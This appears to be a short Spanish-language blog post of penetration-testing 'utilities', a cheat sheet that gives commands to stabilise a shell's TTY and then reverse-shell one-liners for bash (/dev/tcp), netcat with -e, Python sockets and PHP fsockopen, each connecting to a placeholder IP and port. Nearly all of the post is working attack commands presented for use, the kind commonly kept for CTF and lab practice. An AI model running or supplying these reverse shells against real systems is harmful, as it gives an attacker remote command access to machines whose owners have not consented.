 ```yaml
---
title: Utilidades
date: 2024-10-03
description: Post con recursos generales.
categories:
    - Utilities
tags:
    - Utilities
media_subpath: /assets/img/commons/Utilities/
# image:
---
```


## Tratamiento de la tty

```bash
script /dev/null -c bash
(Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 44 col 184
```

## Reverse Shell Linux

```bash
bash -i >& /dev/tcp/{IP}/{PUERTO} 0>&1
```

## Reverse Shell Netcat

```bash
nc -e /bin/sh {IP} {PUERTO}
```

## Reverse Shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PUERTO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

```bash
php -r '$sock=fsockopen("{IP}",{PUERTO});exec("/bin/sh -i <&3 >&3 2>&3");'
```
